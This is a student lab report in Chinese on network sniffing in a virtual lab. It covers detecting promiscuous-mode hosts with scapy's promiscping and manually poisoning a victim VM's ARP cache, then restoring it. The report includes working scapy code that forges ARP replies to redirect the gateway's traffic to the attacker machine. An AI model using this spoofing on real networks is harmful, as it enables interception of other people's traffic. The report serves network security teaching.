


# 网络监听

## 实验目的

动手进行网络监听的相关实验

## 实验环境

### 网络拓扑图

```
- kali-victim [172.16.111.117] [08:00:27:d6:f5:93]
- debian-gateway [172.16.111.1] [08:00:27:b5:08:bc]
- kali-attacker [172.16.111.133][08:00:27:36:b5:e8]
```


### 各主机网络配置

- 受害者主机


- 网关主机


- 攻击者主机


### 攻击者主机`scapy`安装

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```



## 实验内容

### 实验1 检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
# 注意上述输出结果里应该没有出现 PROMISC 字符
```


```
# 在攻击者主机上开启scapy
sudo scapy
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.117")
```


```
# 回到受害者主机上开启网卡的『混杂模式』
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```


```
#再回到攻击者主机执行promiscping 命令
pkt = promiscping("172.16.111.117")
```


可以看出在混杂模式下，受害者主机收到了这个数据包。

我们再打开受害者主机的`wireshark`对`eth0`端口进行抓包,可以发现其收到了`promiscping` 命令发送的 `ARP`数据包。



通过对比是否开启网卡的混杂模式的两种情况，发现发送出去的数据包在没有指定目的主机的MAC地址时，**普通模式**下进行发送将不会成功。
```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```

### 实验2 手工单步“毒化”目标主机ARP缓存

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

```


```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```


```
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.117", hwdst="08:00:27:36:b5:e8")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```


```
#此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
ip neigh
```


```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:b5:08:bc", pdst="172.16.111.117", hwdst="08:00:27:d6:f5:93")
sendp(restorepkt1, count=100, inter=0.2)
```


```
此时在受害者主机上准备“刷新”网关 ARP 记录。
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```


## 实验反思

1.`kali`不同于`windows`,其预装了抓包工具`wireshark`，我们在`attacker`发送`ARP`包之前打开此工具并选择对应端口（网卡）即可。


2.查阅资料得知，`promiscping` 命令会发送 `ARP who-has` 请求。

- 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证`MAC`地址。
- 普通模式 网卡只接收发给本机的包。

可以看出在混杂模式下，受害者主机才能收到这个数据包。

## 参考链接

[`kali`的基本工具之一--`wireshark`](https://www.jianshu.com/p/91e0f8bea7f7)

[`Scapy`中的`ARP`](https://stackoverflow.com/questions/50703738/what-is-the-meaning-of-the-scapy-arp-attributes)